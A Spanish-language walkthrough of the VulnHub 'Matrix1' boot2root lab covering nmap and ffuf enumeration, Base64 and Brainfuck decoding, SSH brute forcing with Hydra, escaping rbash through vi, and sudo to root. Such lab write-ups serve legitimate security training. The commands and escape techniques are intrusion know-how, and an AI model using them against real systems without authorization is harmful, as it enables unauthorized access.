






# Matrix1 (VulnHub) en VMware — WriteUp completo

> **Aviso (ético y legal):** Este laboratorio está documentado **solo con fines educativos** y en un entorno controlado. No apliques estas técnicas sobre sistemas reales sin autorización.

---

## Descripción de la máquina 

**Descripción**  
**Matrix** es un desafío **boot2root** de nivel medio. El archivo OVA ha sido probado tanto en **VMware** como en **VirtualBox**.

**Dificultad:** Intermedia

**Flags:** Tu objetivo es conseguir **root** y leer `/root/flag.txt`

**Red:**  
- DHCP: habilitado  
- Dirección IP: asignada automáticamente

**Pista:** Sigue tus intuiciones… ¡y enumera!

Si tienes cualquier pregunta, puedes contactar con el autor en Twitter: `@unknowndevice64`

---

## 1) Configuración en NAT y por qué se usa

Antes de encender las máquinas, configuramos **Kali** y **Matrix1** en **adaptador NAT**.

### ¿Por qué NAT?

Porque así:
- ambas máquinas quedan dentro de una red privada virtual de VMware,
- reciben IPs automáticamente por DHCP,
- pueden verse entre sí,
- y además pueden salir a Internet a través del servicio NAT de VMware.

Esto facilita:
- el descubrimiento de hosts,
- la conectividad entre atacante y víctima,
- y el aislamiento respecto a la red física real.

---

## 2) Identificar nuestra IP y rango de red

En Kali ejecutamos:

```bash
ip a
```

Nos interesa la interfaz `eth0`.

📷 **Imagen 1 — IP de Kali y rango**


La parte clave es:

```text
inet 192.168.184.128/24
```

### Interpretación

- IP de Kali: `192.168.184.128`
- máscara: `/24`
- red: `192.168.184.0/24`

Como la víctima también está en NAT, lo normal es que reciba una IP dentro de ese mismo rango.

---

## 3) Descubrir la IP de la víctima

Lanzamos:

```bash
sudo nmap -n -sn 192.168.184.128/24
```

### Explicación de flags

- `sudo` → algunos métodos de descubrimiento requieren privilegios
- `-n` → no resolver DNS
- `-sn` → ping scan, detecta hosts vivos pero no escanea puertos
- `192.168.184.128/24` → realmente recorre toda la red `192.168.184.0/24`

### Conclusión

Sabemos que nuestra Kali es:
- `192.168.184.128`

Y por descarte, la víctima queda como:
- **`192.168.184.131`**

---

## 4) Escaneo completo de puertos

Ejecutamos:

```bash
sudo nmap -p- --open -sCV -Pn -T5 -vvv -oN fullscan 192.168.184.131
```

### Explicación de flags

- `-p-` → todos los puertos TCP
- `--open` → solo puertos abiertos
- `-sC` → scripts NSE por defecto
- `-sV` → versiones y banners
- `-Pn` → asumir host activo
- `-T5` → timing agresivo
- `-vvv` → muy verboso
- `-oN fullscan` → guardar salida a fichero

### Puertos abiertos

```text
22/tcp    open  ssh     OpenSSH 7.7
80/tcp    open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
31337/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
```

### Qué significa esto

Tenemos:
- un **SSH** en 22
- una **web** en 80
- otra **web** en 31337

Y ambos servicios web aparecen como un servidor simple de Python.

---

## 5) Primera web: puerto 80

Visitamos:

- `http://192.168.184.131`

📷 **Imagen 2 — Página principal**


La página muestra:
- “Follow the White Rabbit”

No da una pista técnica directa, pero sí una pista narrativa muy fuerte:
- hay que seguir el “conejo blanco”

---

## 6) Wappalyzer

También revisaste con Wappalyzer.

📷 **Imagen 3 — Wappalyzer**


Tecnologías detectadas:
- Font Awesome
- Google Font API
- particles.js
- jQuery 3.2.1

### Conclusión

No parece haber un CMS ni un backend complejo.  
Por tanto, toca enumeración de rutas y revisión de frontend.

---

## 7) Enumeración con ffuf en el puerto 80

Ejecutamos:

```bash
ffuf -u http://192.168.184.131/FUZZ -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

### Explicación detallada

- `-u http://192.168.184.131/FUZZ` → URL objetivo; `FUZZ` se sustituye por cada palabra
- `-c` → salida coloreada
- `-w ...directory-list-2.3-medium.txt` → diccionario de rutas
- `-t 100` → 100 hilos concurrentes

### Resultado

Solo aparece:

```text
assets [Status: 301]
```

La ruta existe y redirige a `/assets/`.

---

## 8) Revisar `/assets/`

Entramos a:

- `http://192.168.184.131/assets/`

📷 **Imagen 4 — Directory listing en `/assets/`**


Aparecen directorios de frontend:
- `css/`
- `fonts/`
- `img/`
- `js/`
- `vendors/`

A primera vista parece todo estático.  
Pero al revisar `img/` aparece un detalle clave:

- `p0rt_31337.png`

Ese nombre coincide con el puerto `31337` abierto en la máquina.

---

## 9) La imagen del conejo blanco y la pista del puerto 31337

Dentro de `img/`, la imagen `p0rt_31337.png` es un **conejo blanco**.

📷 **Imagen 5 — Conejo blanco**


Esto encaja con la pista inicial:
- “Follow the White Rabbit”

Y además el nombre de la imagen apunta explícitamente al puerto `31337`.

### Deducción lógica

La máquina te está diciendo:
- sigue el conejo blanco
- y el conejo blanco apunta al puerto 31337

Así que el siguiente paso correcto es visitar:

- `http://192.168.184.131:31337`

---

## 10) Segunda web: puerto 31337

Abrimos:

- `http://192.168.184.131:31337`

📷 **Imagen 6 — Página en 31337**


Ahora la página muestra:
- “Cypher”
- una nueva frase de Matrix
- el mismo estilo visual

El texto visible no da credenciales ni rutas directas.  
Así que volvemos a enumerar.

---

## 11) Ffuf en el puerto 31337

```bash
ffuf -u http://192.168.184.131:31337/FUZZ -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

Vuelve a aparecer:
- `assets`

Pero al revisar esos assets no aparece nada útil.

### Conclusión

El camino no está en una ruta obvia.  
Hay que cambiar de enfoque.

---

## 12) Revisar el código fuente de la página

Abrimos el código fuente con:
- clic derecho → View Page Source
- o `Ctrl + U`

Dentro aparece una cadena interesante oculta en comentarios HTML:

```html
<!--p class="service__text">ZWNobyAiVGhlbiB5b3UnbGwgc2VlLCB0aGF0IGl0IGlzIG5vdCB0aGUgc3Bvb24gdGhhdCBiZW5kcywgaXQgaXMgb25seSB5b3Vyc2VsZi4gIiA+IEN5cGhlci5tYXRyaXg=</p-->
```

### Por qué sospechamos de Base64

La cadena:
- tiene formato típico
- y termina en `=`

Así que la decodificamos.

---

## 13) Decodificar la cadena Base64

En terminal:

```bash
echo "ZWNobyAiVGhlbiB5b3UnbGwgc2VlLCB0aGF0IGl0IGlzIG5vdCB0aGUgc3Bvb24gdGhhdCBiZW5kcywgaXQgaXMgb25seSB5b3Vyc2VsZi4gIiA+IEN5cGhlci5tYXRyaXg=" | base64 -d
```

Resultado:

```bash
echo "Then you'll see, that it is not the spoon that bends, it is only yourself. " > Cypher.matrix
```

### Qué significa

No nos da directamente el contenido del archivo.  
Nos está mostrando el comando Linux que lo habría creado.

Ese comando redirige la frase a un archivo llamado:
- `Cypher.matrix`

Así que la siguiente prueba lógica es buscar ese fichero como recurso web.

---

## 14) Descargar `Cypher.matrix`

Probamos:

- `http://192.168.184.131:31337/Cypher.matrix`

Se descarga automáticamente.

Lo movemos al directorio de trabajo:

```bash
mv ~/Downloads/Cypher.matrix .
```

Luego comprobamos:

```bash
file Cypher.matrix
```

Salida:

```text
Cypher.matrix: ASCII text
```

Es texto ASCII, pero al abrirlo con `cat` parece muy raro.

📷 **Imagen 7 — Contenido raro de `Cypher.matrix`**


---

## 15) Identificar el lenguaje: Brainfuck

Los símbolos presentes:
- `+`
- `-`
- `<`
- `>`
- `[`
- `]`
- `.`
- `,`

son característicos de **Brainfuck**.

### Qué es Brainfuck

Es un lenguaje esotérico, minimalista y deliberadamente difícil de leer.  
Encaja muy bien con el estilo de esta máquina.

Como no tiene sentido interpretarlo a mano, usamos un decompiler/interpreter online, por ejemplo:

- `https://copy.sh/brainfuck/`

---

## 16) Decodificar Brainfuck y obtener la credencial parcial

El resultado decodificado es:

```text
You can enter into matrix as guest, with password k1ll0rXX
Note: Actually, I forget last two characters so I have replaced with XX try your luck and find correct string of password.
```

### Traducción

Puedes entrar en Matrix como **guest**, con la contraseña **k1ll0rXX**.

Nota: En realidad olvidé los dos últimos caracteres, así que los he reemplazado por **XX**. Prueba suerte y encuentra la cadena correcta.

### Qué tenemos

- usuario: `guest`
- contraseña parcial: `k1ll0rXX`

Solo faltan dos caracteres.

---

## 17) Generar un diccionario con `mp64`

Usas:

```bash
mp64 k1ll0r?a?a >> diccionario
```

### Qué es `mp64`

`mp64` forma parte de **hashcat-utils** y sirve para generar combinaciones a partir de máscaras.

### Qué significa `?a`

`?a` representa un carácter variable del conjunto permitido por la herramienta.

Así que:
- `k1ll0r` queda fijo
- las dos últimas posiciones se prueban con distintas combinaciones

Esto genera un diccionario de posibles contraseñas del tipo:
- `k1ll0r??`

---

## 18) Fuerza bruta con Hydra sobre SSH

Ahora lanzamos:

```bash
hydra -l guest -P diccionario 192.168.184.131 ssh
```

### Explicación de flags

- `-l guest` → usuario fijo
- `-P diccionario` → lista de contraseñas
- `192.168.184.131` → IP víctima
- `ssh` → servicio objetivo

### Resultado

Hydra encuentra:

```text
login: guest   password: k1ll0r7n
```

✅ Credencial válida:
- `guest : k1ll0r7n`

---

## 19) Acceso SSH como `guest`

Conectamos:

```bash
ssh guest@192.168.184.131
```

Entramos correctamente, pero al probar:

```bash
whoami
```

sale:

```text
-rbash: whoami: command not found
```

Eso indica que estamos en una **restricted bash**.

---

## 20) Qué es `rbash`

`rbash` es una Bash restringida que limita:
- comandos permitidos
- uso de rutas completas
- y parte del comportamiento normal del shell

En esta máquina, el reto importante no es solo entrar por SSH, sino **escapar de esa shell restringida**.

---

## 21) Entender el `PATH` dentro de `rbash`

Intentas:

```bash
$PATH
```

y obtienes:

```text
-rbash: /home/guest/prog: restricted: cannot specify '/' in command names
```

### Qué revela ese error

Aunque `$PATH` no se imprime como variable, el error deja ver una pista útil:

- el `PATH` contiene `/home/guest/prog`

Eso significa que los binarios disponibles para esa shell probablemente estén ahí.

---

## 22) Enumerar el contenido del PATH sin `ls`

Como `ls` no funcionaba, aprovechas que `echo` sí estaba disponible:

```bash
echo /home/guest/prog/*
```

Y aparece:

```text
/home/guest/prog/vi
```

### Qué implica

Hay un binario:
- `vi`

dentro del `PATH`.

Y eso es perfecto, porque `vi` es un binario clásico para escapar de shells restringidas.

---

## 23) Escapar de `rbash` con `vi`

Abres `vi` y dentro ejecutas:

```vim
:!/bin/bash
```

### Qué hace eso

- `:` abre el modo de comandos de `vi`
- `!` ejecuta un comando del sistema
- `/bin/bash` lanza una Bash normal

### Resultado

Sales de la `rbash` y obtienes una shell Bash interactiva mucho más usable.

---

## 24) Por qué aún faltaban comandos como `whoami` o `sudo`

Después de escapar con `vi`, todavía fallaban:

```bash
clear
sudo
whoami
```

con mensajes de:

```text
command not found
```

### Por qué ocurre

Porque la nueva Bash heredó el entorno restringido:
- `PATH` limitado
- `SHELL` todavía apuntando al contexto anterior

No era que los comandos no existieran.  
Simplemente Bash no sabía dónde encontrarlos.

---

## 25) Reparar el entorno con `export`

Ejecutas:

```bash
export SHELL=bash
export PATH=/usr/bin:$PATH
```

### Explicación

- `export SHELL=bash`  
  Actualiza la variable `SHELL` para reflejar que ahora estás usando Bash normal.

- `export PATH=/usr/bin:$PATH`  
  Añade `/usr/bin` al `PATH`, donde están muchos comandos esenciales:
  - `whoami`
  - `sudo`
  - `clear`

### Resultado

Ahora sí funcionan correctamente.

---

## 26) `sudo -l` como `guest`

Ejecutas:

```bash
sudo -l
```

Y obtienes:

```text
User guest may run the following commands on porteus:
    (ALL) ALL
    (root) NOPASSWD: /usr/lib64/xfce4/session/xfsm-shutdown-helper
    (trinity) NOPASSWD: /bin/cp
```

### Qué significa

La línea clave es:

```text
(ALL) ALL
```

Eso significa que `guest` puede ejecutar:
- cualquier comando
- como cualquier usuario
- usando sudo

En la práctica:
👉 `guest` es sudoer total

---

## 27) Por qué `sudo su` falla pero `sudo -i` funciona

Probaste:

```bash
sudo su
```

y te respondió:

```text
sudo: su: command not found
```

### Esto no es un problema de permisos

No significa que no puedas ser root.  
Significa que `sudo` no localiza el binario `su` en el `PATH` disponible.

`su` suele estar en:
- `/bin/su`

Si `/bin` no está en tu `PATH`, entonces `sudo su` falla por resolución de ruta.

### En cambio `sudo -i`

```bash
sudo -i
```

usa una opción interna de sudo:
- abre una **login shell como root**

Eso no depende de encontrar `su` en el `PATH`.

### Resultado

```text
root@porteus:~#
```

✅ Ya eres root.

---

## 28) Leer la flag final

Una vez como root:

```bash
cat flag.txt
```

Y ya puedes leer la flag final del laboratorio.

---

## Conclusiones finales

### 28.1 La enumeración fue más importante que la explotación
La máquina no tenía una vulnerabilidad web evidente.  
El camino fue:
- observar la temática,
- seguir las pistas,
- revisar assets,
- inspeccionar el source code,
- y encadenar cada hallazgo.

### 28.2 El frontend sí contenía información crítica
- `p0rt_31337.png`
- comentarios HTML
- `Cypher.matrix`

Todo eso estaba expuesto del lado cliente.

### 28.3 Reconocer formatos raros fue clave
Identificar Brainfuck fue esencial para desbloquear la credencial parcial.

### 28.4 Escapar de `rbash` fue el punto realmente interesante
La escalada final fue sencilla porque `guest` ya tenía sudo total.  
Lo difícil fue:
- entender el `PATH`
- descubrir `vi`
- y salir de la shell restringida

### 28.5 `PATH` y `export` importan muchísimo
No bastó con abrir una Bash.  
Hubo que arreglar el entorno para recuperar los comandos normales.

---

## Resumen técnico de la ruta de explotación

1. Configuración en NAT
2. `ip a` para identificar la IP de Kali
3. `nmap -sn` para descubrir la víctima
4. Escaneo completo con Nmap
5. Web en 80 → pista del conejo blanco
6. `ffuf` → `/assets/`
7. Hallazgo de `p0rt_31337.png`
8. Navegar al puerto `31337`
9. Revisar el source code
10. Detectar y decodificar Base64
11. Descargar `Cypher.matrix`
12. Identificar Brainfuck y decodificarlo
13. Obtener usuario `guest` y contraseña parcial `k1ll0rXX`
14. Generar diccionario con `mp64`
15. Hydra contra SSH → `guest : k1ll0r7n`
16. Acceso SSH como `guest`
17. Detectar `rbash`
18. Identificar el `PATH` restringido
19. Encontrar `vi`
20. Escapar con `:!/bin/bash`
21. Reparar entorno con `export SHELL=bash` y `export PATH=/usr/bin:$PATH`
22. `sudo -l`
23. `sudo -i`
24. Leer `flag.txt` como root

---

## Estado del laboratorio

✅ Máquina completada  
✅ Root conseguido  
✅ Flag final leída  
✅ Ruta documentada paso a paso
